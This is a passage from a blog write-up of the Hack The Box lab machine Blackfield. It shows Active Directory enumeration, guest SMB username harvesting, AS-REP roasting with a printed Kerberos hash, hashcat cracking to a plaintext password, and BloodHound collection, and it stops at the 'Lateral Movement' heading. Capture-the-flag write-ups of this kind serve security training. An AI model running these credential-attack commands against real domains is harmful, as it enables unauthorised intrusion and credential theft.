

repository: gmrvh/blog · page: htb/blackfield/index.html · generator: mkdocs

# Blackfield - Writeup

## Initial Enumeration

### Port Scanning
A comprehensive port scan revealed standard Active Directory services:
```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos
135/tcp  open  msrpc         Microsoft Windows RPC
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP
445/tcp  open  microsoft-ds?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP
```

### Domain Information
From the scan results, I identified domain information:
```
Domain: BLACKFIELD.local
Domain Controller: DC01.BLACKFIELD.local
```

### SMB Enumeration
I checked for SMB access with null and guest authentication:
```bash
crackmapexec smb 10.129.229.17 -u '' -p ''
crackmapexec smb 10.129.229.17 -u 'Guest' -p ''
```

Guest authentication revealed access to a "profiles$" share:
```bash
smbclient //10.129.229.17/profiles$ -U Guest
```

This share contained numerous directories named after potential usernames. I extracted these usernames for further attacks:
```bash
smbclient //10.129.229.17/profiles$ -U Guest -c "ls" | awk '{print $1}' > users.txt
```

## Gaining Initial Access

### AS-REP Roasting
With the user list in hand, I attempted AS-REP Roasting to identify users with Kerberos pre-authentication disabled:
```bash
GetNPUsers.py BLACKFIELD.LOCAL/ -usersfile users.txt -dc-ip 10.129.229.17 -no-pass
```

This revealed a hash for the "support" user:
```
$krb5asrep$23$support@BLACKFIELD.LOCAL:b3db2df37b67a1b8ae5639d98bacaf27$e1203eeede294e058990c0ab70ef72087b38608fbfd36cbbab4416999f92e4b84b44ec41bf4cafdaadeeb394f4183625541ebebf4ece454878392e9f98e19014528f687e6c98edc578c6c99bb35b37cd582d17b423368cf1c6e223495ab2a39158a2d34927280532c5dec7b00c01b058a2cea204e1a96c81e18cb78feef82ad51cc58a596c95b10c8ad889665a3f61b4381fc63387d52c957e2f2d7bf1178a64a3f5e4cd2a7c1513e1c26d8fe809f6693af17fad6749cd896967ff288bcf9d7202f28fb00716357fa483ec2ace48204fcdc9b002cdb32806e85fb33405e8c501dfc79734d5745cb973f798b4674c1de93e5ab9ad
```

### Password Cracking
I used Hashcat to crack the hash:
```bash
hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt
```

This revealed valid credentials:
- **Username**: support
- **Password**: #00^BlackKnight

### BloodHound Enumeration
I used BloodHound to map the domain and identify attack paths:
```bash
bloodhound-python -c All -u support -p '#00^BlackKnight' -d BLACKFIELD.LOCAL -dc DC01.BLACKFIELD.LOCAL -ns 10.129.229.17
```

Analysis of the BloodHound data revealed that the "support" user had the ability to change passwords for the "audit2020" user.

## Lateral Movement
